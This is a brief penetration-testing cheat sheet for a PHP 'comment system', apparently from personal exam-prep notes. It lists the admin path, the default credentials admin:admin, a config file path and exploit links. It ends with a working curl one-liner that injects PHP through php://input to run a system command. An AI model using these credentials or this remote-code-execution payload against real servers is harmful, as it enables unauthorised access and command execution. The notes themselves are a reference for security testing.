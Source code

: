# comment system

## Admin Path

```bash
/admin.php
```

## Default Credentials

```bash
admin:admin
```

## Interesting Paths

```bash
/config.php
```

## Path Traversal v1.0

* [https://www.exploit-db.com/exploits/49343](https://www.exploit-db.com/exploits/49343)

## RCE

v1.0

* [https://pentest.tonyng.net/timo-sablowskis-oscp-note/#php](https://pentest.tonyng.net/timo-sablowskis-oscp-note/#php)

```bash
curl "IP/PATH/admin.php?ACS_path=php://input%00" -s --data "<?system('ls -la');?>"
```
